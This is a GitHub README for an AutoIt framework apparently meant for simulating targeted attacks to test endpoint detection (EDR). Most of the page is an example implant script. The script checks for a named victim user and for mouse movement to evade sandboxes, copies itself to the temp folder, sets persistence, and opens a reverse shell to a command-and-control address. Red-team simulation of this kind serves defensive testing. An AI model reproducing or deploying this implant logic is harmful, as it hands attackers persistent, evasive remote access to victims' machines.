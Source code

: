 # APT SimulActor

## Introduction

Targeted attacks are not random in nature and are usually composed of different phases like infection, data exfiltration and persistency.
APT SimulActor is a little framework based on AutoIT libraries for basic EDR POCs.


## Example Flow

![flow](https://user-images.githubusercontent.com/24607076/70719514-0af56200-1cea-11ea-8167-4bbe872d525c.PNG)


## Example Code
```
#include "libs/settings.au3"
#include "libs/network.au3"
#include "libs/info.au3"
#include "libs/files.au3"
#include "libs/misc.au3"

$victim = "john"
$c2server = "192.168.0.1"
$c2port = "432"

if isRunningFromTemp() Then

   SetPersistent4CurrentUser()

   ReverseShell($c2server, $c2port)

Else

   if AmIusername($victim) Then

	  if InternetCheck() Then

		 if DetectMouseMoving() Then

			MessageBox("Debug","Hi!")

			CopyTempRun()

		 EndIf

	  EndIf

   EndIf

EndIf
```



## Prerequisites

AutoIt Downloads [link](https://www.autoitscript.com/site/autoit/downloads/)

